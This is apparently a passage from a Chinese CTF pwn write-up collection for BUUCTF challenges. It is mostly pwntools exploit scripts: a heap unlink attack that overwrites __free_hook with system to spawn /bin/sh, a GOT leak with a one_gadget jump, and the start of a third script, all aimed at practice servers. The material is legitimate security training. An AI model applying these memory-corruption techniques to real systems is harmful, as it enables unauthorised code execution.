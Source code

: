 ```python
log.info('elf base: ' + hex(elf_addr))

libc_base = __libc_start_main - libc.symbols['__libc_start_main']
__free_hook = libc_base + libc.symbols['__free_hook']
system = libc_base + libc.symbols['system']


add(0, 0x98, b'a')
add(1, 0xA0, b'/bin/sh')
edit(0, p64(0x10) + p64(0x91) + p64(note_addr - 0x18) + p64(note_addr - 0x10) + cyclic(0x70) + p64(0x90) + b'\xB0')
delete(1)
edit(0, p64(0) * 3 + p64(__free_hook) + p64(0x38) + p64(note_addr + 0x18) + b'/bin/sh\x00')
edit(0, p64(system))
delete(1)
# gdb.attach(io)
# time.sleep(3)

io.interactive()
```

# buu098-oneshot_tjctf_2016
第一次输出got表地址，然后获取libc地址，跳转到one_gadget即可。
```python
from pwn import *
context.log_level = 'debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 27336)
elf = ELF('./pwn')
libc = ELF('./libc-2.23.so')
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

one_gadgets = [0x45216, 0x4526a, 0xf02a4, 0xf1147]

sla = lambda x, y: io.sendlineafter(x, y)
sa = lambda x, y: io.sendafter(x, y)
ru = lambda x: io.recvuntil(x)
rud = lambda x: io.recvuntil(x, drop=True)

sla(b'Read location?\n', str(elf.got['puts']).encode())
ru(b'Value: 0x')
libc_base = int(rud(b'\n'), 16) - libc.symbols['puts']
sla(b'Jump location?\n', str(one_gadgets[3] + libc_base).encode())

io.interactive()
```

# buu099-护网杯_2018_gettingstart
```python
from pwn import *
context.log_level = 'debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 29278)
elf = ELF('./pwn')
libc = ELF('./libc-2.23.so')
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

one_gadgets = [0x45216, 0x4526a, 0xf02a4, 0xf1147]

```